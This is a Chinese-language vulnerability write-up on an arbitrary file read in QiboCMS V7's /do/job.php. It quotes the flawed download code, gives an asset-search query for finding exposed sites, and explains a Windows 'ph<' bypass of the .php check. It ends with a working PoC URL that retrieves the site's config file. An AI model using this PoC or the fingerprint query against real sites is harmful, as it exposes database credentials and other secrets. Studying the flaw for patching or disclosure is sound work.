 # 齐博CMS V7 job.php 任意文件读取漏洞

## 漏洞描述

QiboCMS V7版本/do/job.php页面URL参数过滤不严，导致可以下载系统任意文件，获取系统敏感信息。

## 漏洞影响

```
齐博CMS V7
```

## 网络测绘

```
app="齐博软件-v7"
```

## 漏洞复现

漏洞分析 `/inc/job/download.php`

```
$url=trim(base64_decode($url));
    $fileurl=str_replace($webdb[www_url],"",$url);
    if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }

    if(!$webdb[DownLoad_readfile]){
        $fileurl=strstr($url,"://")?$url:tempdir($fileurl);
        header("location:$fileurl");
        exit;
    }


    $webdb[upfileType] = str_replace(' ','|',$webdb[upfileType]);
    if( $webdb[local_download] && is_file(ROOT_PATH.$fileurl) && eregi("($webdb[upfileType])$",$fileurl) ){
        $filename=basename($fileurl);
        $filetype=substr(strrchr($filename,'.'),1);
        $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

        if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){
            $filename=urldecode(base64_decode($_filename)).".$filetype";
        }
        ob_end_clean();
        header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');
        header('Pragma: no-cache');
        header('Content-Encoding: none');
        header('Content-Disposition: attachment; filename='.$filename);
        header('Content-type: '.$filetype);
        header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));
        readfile(ROOT_PATH."$fileurl");
        exit;
    }
```

url base64解码,匹配后缀 如果是php结尾的就退出 在windows下能用xxx.ph< 绕过 然后经过一系列的正则后会下载文件。

```
if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }
```

## 漏洞POC

```
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
```

![image-20220518160941881](./images/202205181609962.png)